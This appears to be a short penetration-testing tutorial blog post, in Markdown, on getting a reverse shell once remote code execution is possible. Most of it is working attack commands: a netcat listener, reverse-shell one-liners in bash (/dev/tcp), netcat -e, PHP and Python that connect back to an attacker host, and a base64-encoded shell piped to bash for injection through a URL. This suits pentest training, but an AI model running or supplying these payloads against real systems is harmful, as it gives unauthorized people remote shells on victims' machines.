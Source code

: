 ```yaml
---
layout: post
title:  "Get reverse shell with RCE"
tags: ['reverse-shell', 'pentest-basics', 'rce']
---
```


## Introduction

When we are triying to pwn a machine we look for a shell connected to the victim's machine. Sometimes we can found some credentiales or RSA keys to connect via SSH. More times we can't get a SSH shell but we have some [RCE][rce].
In this article we are going to cover different ways to get a reverse shell with [RCE][rce]

Soon, in later articles we are going to be covering how to upgrade these shell's because these are not interactive, means, for example, that if we press TAB we won't get an autocompletion, we will just get a tabulation. 

Also, a good practice before try to connect a reverse shell is try to test this RCE first create the shell.
In this [article][test-rce] we cover how to test this.

For the porpous of this post we are going to be using an Ubuntu FocalFossa machine from [osboxes.org ][osboxes]

### Getting an interactive reverse shell with socat
In this [post][socat] we cover how to get an interactive reverse shell with socat


## Concepts and notation
In order to follow this post we have to make clear some concpets and notation.
When we say $IP we mean the ip address of the attacker's machine. You can choose any port for $PORT, just remember have to be a number between 1 and 65,535. Also the port have to be free, no service have to be running. A common port used to reverse shell is 443

## From attacker's machine
In most of the cases we are going to use netcat in order to listen to the comunication
This will be the only command we execute in our attacker's machine, the rest of them will be executed on the victim's machine.

We have to run:
```bash
nc -lvnp $PORT
```
With this command we are going to be waiting for connecions at this port in our machine.

## From victim's machine
The command that we have to inject are one of those:

### Bash

This is propably the easiest way to do it.
We have to enter this command in the victim's machine

```bash
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

### Netcat

If netcat is installed in the victmim's machine we can also got a reverse shell
```bash
nc -nv $IP $PORT -e /bin/sh
nc -nv $IP $PORT -e /bin/bash
```
Either of this two commands will work.

### PHP

If we have php installed on the victim's machine we can:
```php
 php -r '$sock=fsockopen("$IP",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Special cases
We just saw a few ways to get a reverse shell but sometimes we have to inject the code on an url. So there's a problem because if we try to inject the bash code we can see that there is some special characters that the web would recognize like /. We wan't to pass that command as a string, so the web can't recognize that characters.

### Encode to base64
First we have encode the command to base64.
```bash
echo $command_to_convet | base64
```
For example we are going to convert:
```bash
bash -i >& /dev/tcp/192.168.1.36/443 0>&1
```
The result:
```bash
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMzYvNDQzIDA+JjEK
```
We notice that now we dont have those special characters that were bothering us, but now we have another problem.
We can't just pass this encode string and expect the victim's machine to recognize IT.

So we have to tell it how to decode and execute, THIS IS THE FINAL URL COMMAND THAT WE HAVE TO INJECT:
```bash
echo $encode_string|base64 -d|bash
```
We just to put the previusly encoded string into the $encode_string variable



[socat]:https://www.abusinglinux.com/2022/02/11/get-full-interactive-reverse-shell-with-socat.html
[osboxes]: https://www.osboxes.org/
[rce]: https://www.n-able.com/blog/remote-code-execution
[test-rce]: https://www.abusinglinux.com/2022/02/04/test-rce.html
